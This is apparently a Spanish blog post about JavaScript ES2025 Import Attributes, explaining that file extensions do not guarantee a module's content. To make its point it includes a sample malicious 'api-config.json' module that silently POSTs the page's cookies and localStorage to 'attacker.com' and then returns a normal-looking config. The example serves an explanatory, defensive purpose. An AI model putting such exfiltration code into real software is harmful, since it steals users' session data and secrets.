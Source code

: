 ```yaml
---
title: "Lo nuevo de JavaScript ES2025: Import Attributes"
description: Comprendiendo su nueva sintaxis y por qué no podemos fiarnos solo de las extensiones de archivo.
date: 2024-11-22T21:33:25.684Z
update: 2024-11-22T21:33:25.684Z
image:
  src: /media/2024/11/js-es2025.svg
  alt: JavaScript ES2025
  og: /media/2024/11/js-es2025.png
tags:
  - Programación
  - JavaScript
  - ES2025
  - JSON
sources:
  - title: JavaScript Import Attributes (ES2025) - Trevor I. Lasn
    href: https://www.trevorlasn.com/blog/import-attributes-in-javascript
  - title: Import Attributes - TC39
    href: https://tc39.es/proposal-import-attributes/
  - title: Import Attributes - TC39 (GitHub)
    href: https://github.com/tc39/proposal-import-attributes
---
```


<BaselineStatus id="json-modules" />

JavaScript incorpora una nueva función que hace que las importaciones de módulos sean más explícitas y seguras. Los **Import Attributes** añaden una forma de pasar metadatos sobre cualquier módulo que estemos importando, ya sea JSON, JavaScript u otros tipos de módulos.

## ❌ El problema

En Internet, las extensiones de archivo no indican el contenido de forma fiable. Un servidor puede devolver JavaScript cuando usted espera JSON:

😇 **main.js**

```js
// Parece seguro, pero podría ser peligroso ☢️
import config from './config.json';
```

😈 **config.json**

```js
// El servidor podría responder con código ejecutable:
export default (function(){
  // Ejecución inesperada de código 💀
})();
```

## 💡 La solución: Import Attributes

Los Import Attributes crean un contrato entre el código y el tiempo de ejecución. Declaras explícitamente qué tipo de módulo esperas:

```js
// Requerir JSON explícitamente
import config from './config.json' with { type: 'json' };

// O especificar JavaScript
import module from './module.js' with { type: 'javascript' };

// También funciona con importaciones dinámicas
const data = await import('./config.json', {
  with: { type: 'json' }
});
```

La sintaxis funciona de forma coherente en diferentes contextos de módulos:

```js
// Re-exportación con atributos
export { data } from './data.json' with { type: 'json' };

// Instanciación de Web Worker
new Worker('processor.wasm', {
  type: 'module',
  with: { type: 'webassembly' }
});
```

## 💭 ¿Por qué los Import Attributes?

El principal problema es la seguridad. En Internet, las extensiones de archivo no indican el contenido de forma fiable. Una URL que termine en `json` podría en realidad servir JavaScript:

😇 **main.js**

```js
// Carga de la configuración de la API
import apiConfig from './api-config.json';

// Lo que esperas obtener:
{
  "apiKey": "secret-key",
  "endpoint": "https://api.example.com",
  "timeout": 5000
}
```

😈 **api-config.json**

```js
// Lo que un servidor comprometido podría enviar en su lugar:
export default (function(){
  // Envía tus claves API a un atacante
  fetch('https://attacker.com', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: window.localStorage
    })
  });

  // Luego devuelve lo que parece una configuración normal
  return {
    apiKey: 'secret-key',
    endpoint: 'https://api.example.com',
    timeout: 5000
  }
})();
```

Los Import Attributes hacen que nuestro sistema de módulos sea más explícito y seguro. Los módulos JSON no pueden ejecutar código, son datos puros. Cuando marcas un módulo con `type: "json"`, estás garantizado que obtendrás datos JSON o un error, nunca código ejecutable.

El impacto más inmediato se produce en las importaciones JSON, donde la seguridad es crucial:

```js
// Archivos de configuración
import config from './config.json' with { type: 'json' };

// Configuración dinámica
const config = await import(
  `./config.${env}.json`,
  { with: { type: 'json' } }
);
```

Esta característica crea una base para manejar con seguridad diferentes tipos de módulos en JavaScript. Cuando llegue en 2025, dispondremos de una forma estándar de declarar nuestras expectativas sobre los módulos en todos los entornos JavaScript.

Piensa en ello como si añadieras seguridad de tipos a tus importaciones de módulos, no para los datos dentro de los módulos, sino para los propios módulos.
